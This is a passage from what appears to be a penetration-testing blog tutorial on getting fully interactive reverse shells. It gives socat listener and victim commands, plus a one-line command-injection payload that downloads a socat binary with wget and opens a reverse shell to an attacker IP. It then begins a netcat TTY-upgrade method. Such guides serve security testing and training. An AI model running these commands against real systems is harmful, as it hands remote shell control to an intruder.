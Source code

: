 If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

|                 |                                                               |
| --------------- | ------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>socat file:`tty`,raw,echo=0 tcp-listen:4444<br>``` |

**On Victim (launch)**:

|                 |                                                                                         |
| --------------- | --------------------------------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444<br>``` |

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

|                 |                                                                                                                                                                                                                             |
| --------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444<br>``` |

On Kali, you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. Pretty sweet.

[![Socat tty](https://blog.ropnop.com/images/2017/07/socat_tty.png)](https://blog.ropnop.com/images/2017/07/socat_tty.png)

# Method 3: Upgrading from netcat with magic

I watched Phineas Fisher use this technique in his hacking video, and it feels like magic. Basically it is possible to use a dumb netcat shell to upgrade to a full TTY by setting some `stty` options within your Kali terminal.

First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`

[![Background shell](https://blog.ropnop.com/images/2017/07/background_netcat.png)](https://blog.ropnop.com/images/2017/07/background_netcat.png)

While the shell is in the background, now examine the current terminal and STTY info so we can force the connected shell to match it:

[![Term and STTY info](https://blog.ropnop.com/images/2017/07/term_stty_info.png)](https://blog.ropnop.com/images/2017/07/term_stty_info.png)

The information needed is the TERM type (_“xterm-256color”_) and the size of the current TTY (_“rows 38; columns 116”_)
